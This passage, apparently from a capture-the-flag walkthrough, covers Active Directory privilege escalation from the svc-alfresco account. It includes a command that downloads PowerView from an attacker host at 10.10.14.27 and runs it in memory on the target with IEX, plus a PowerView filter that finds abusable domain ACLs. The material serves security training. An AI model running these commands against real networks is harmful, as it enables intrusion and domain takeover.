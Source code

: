 Looking at this, there is an interesting feature. `svc-alfresco` is a member of `Service Accounts` and `Service Accounts` is a member of `Privileged IT Accounts`. Then `Privileged IT Accounts` is a member of `Account Operators`. This is a powerful default Windows domain group:

- https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#active-directory-default-security-groups-by-operating-system-version
- https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#account-operators

It allows the following:

- Allows creating non administrator accounts and groups on the domain
- allows logging in to the DC locally

However, this aslone is not enough to escalate privileges. There are some unique groups that are not common ones in AD for Windows:

```
Exchange Install Domain Servers
Exchange Servers
Exchange Trusted Subsystem
Exchange Windows Permissions
```

Maybe these accounts have unique permissions? To test this, more functionality is needed. Download and run PowerView on the target:

```bash
# on kali, download a copy of the script
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
# on kali, host payload
sudo python3 -m http.server 80
# in target WinRM session, execute payload
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.27/PowerView.ps1');
```

Then from here, the following is are good guides for the tool:

- https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet
- https://powersploit.readthedocs.io/en/latest/Recon/#powerview

To enumerate domain ACLs, the `Find-InterestingDomainAcl` is used:

- https://powersploit.readthedocs.io/en/latest/Recon/Find-InterestingDomainAcl/

This, when run alone, will return a lot of output. It is better to know what to look for:

- https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse

```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ? {
  ($_.ActiveDirectoryRights -contains "Self") -or 
  ($_.ActiveDirectoryRights -contains "WriteDACL") -or 
  ($_.ActiveDirectoryRights -contains "WriteOwner") -or
  (($_.ObjectAceType -contains "All") -and 
   ($_.ActiveDirectoryRights -contains "GenericAll")) -or 
  (($_.ObjectAceType -contains "All") -and 
   ($_.ActiveDirectoryRights -contains "WriteProperty")) -or 
  (($_.ObjectAceType -contains "User-Force-Change-Password") -and 
   ($_.ActiveDirectoryRights -contains "ExtendedRight"))
}
```
